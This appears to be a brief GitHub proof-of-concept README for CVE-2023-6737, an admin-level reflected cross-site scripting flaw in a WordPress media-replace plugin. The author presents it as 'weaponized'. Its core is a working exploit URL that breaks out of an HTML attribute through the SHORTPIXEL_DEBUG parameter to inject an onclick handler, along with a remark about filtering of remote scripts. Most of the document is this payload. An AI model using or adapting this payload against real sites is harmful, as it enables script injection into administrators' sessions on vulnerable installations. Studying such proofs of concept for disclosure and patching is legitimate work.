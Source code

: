 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>&_wpnonce=5b60e5964f
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 

![Screenshot3](screenshot3.png)